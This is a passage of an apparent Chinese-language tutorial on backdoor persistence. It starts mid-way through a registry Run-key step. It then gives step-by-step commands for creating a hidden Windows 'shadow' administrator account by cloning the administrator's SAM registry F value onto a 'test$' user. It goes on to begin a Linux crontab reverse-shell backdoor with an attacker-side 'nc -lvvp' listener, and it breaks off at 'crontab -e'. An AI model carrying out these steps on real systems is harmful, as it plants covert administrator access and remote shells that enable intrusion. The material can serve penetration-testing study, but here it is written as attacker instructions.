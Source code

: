   
  
    1. 添加键值REG_SZ  
  
    1. 数据中填运行程序路径  
  
  
  
- 影子账户(杀毒能杀)  
  
顾名思义隐藏账户，只能通过注册表查看该用户。影子账户可以获得管理员权限且不易被发现  
  
> 制作过程  
>     1. 创建隐藏账户  
  
创建隐藏账户只需在账户名后加\$符号，如
```
net user test$ 123 /add
```

  
  
    1. 修改并导出注册表  
  
>> 注册表位置HKEY_LOCAL_MACHINE/SAM/SAM/Domains/Account/Users/，如进入SAM无法看到子选项，需要给administrators完全控制权限将administrator用户的F值复制到test\$对应F值，保存将test\$和users右键导出  
  
    1. 删除创建的隐藏用户  
  
cmd删除test\$
```
net user test$ /del
```

  
  
    1. 导入注册表  
  
双击导出的两个注册表  
  
  
  
  
影子账户试了一下，还是很牛逼的。  
## linux后门  
- 计划任务后门(crontab后门)  
  
> crontab命令介绍  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OzDVhRvQL73P5n1U4NqiaeOgnibPspI8MkvDNzhTEic4UNiagc0icx6KUlEA/640?wx_fmt=png&from=appmsg "")  
  
> crontab命令用来管理用户需要周期执行的任务。等于windows计划任务。crond进程每分钟会定期检查是否有要执行的任务，如果有则自动执行通常在计划任务中添加后门，或者替换服务进程，以及反弹shell反弹shell  
>     1. 攻击机监听
```
nc -lvvp 本地端口号
```

  
、  
  
    1. 目标机中设置计划任务
```
crontab -e
```
